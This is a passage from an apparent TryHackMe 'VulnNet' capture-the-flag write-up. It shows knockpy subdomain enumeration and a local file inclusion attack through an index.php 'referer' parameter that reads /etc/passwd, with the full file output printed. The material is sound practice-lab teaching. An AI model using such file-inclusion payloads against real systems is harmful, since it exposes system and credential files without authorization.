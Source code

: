 
- **Fuzzing Sub-domain**
    
    ```
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ knockpy vulnnet.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
    ==> broadcast.vulnnet.thm
    ```
    
    **Unauthorized.so we have to scan our main domain**
    
    - **like before we check source code**
    - **cert**
    - **domin under a domain at least 4 times**
    - **and also fuzzing our broadcast.vulnnet.thm for hidden dir and urls.**
    
    **You can use burp suite😈**
    

# Exploitation:

On js file `[http://vulnnet.thm/js/index__d8338055.js](http://vulnnet.thm/js/index__d8338055.js)` we found this:

- `http://vulnnet.thm/index.php?referer="` ⇒ Referer is an HTTP header field that identifies the address of the webpage ex. the URI that linked to the resource being requested.
- so let’s try to inject someting on it. we know our target is linux. that means we must use linux stuff things
- in this case i used ****[LFI Linux WordList](https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux) from sec list.**
- **Boom we found this💣**
    
    `view-source:[http://vulnnet.thm/index.php?referer=/etc/passwd](http://vulnnet.thm/index.php?referer=/etc/passwd)`
    
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
    lightdm:x:106:113:Light Display Manager:/var/lib/lightdm:/bin/false
    whoopsie:x:107:117::/nonexistent:/bin/false
    kernoops:x:108:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
    pulse:x:109:119:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
    avahi:x:110:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
    hplip:x:111:7:HPLIP system user,,,:/var/run/hplip:/bin/false
    server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash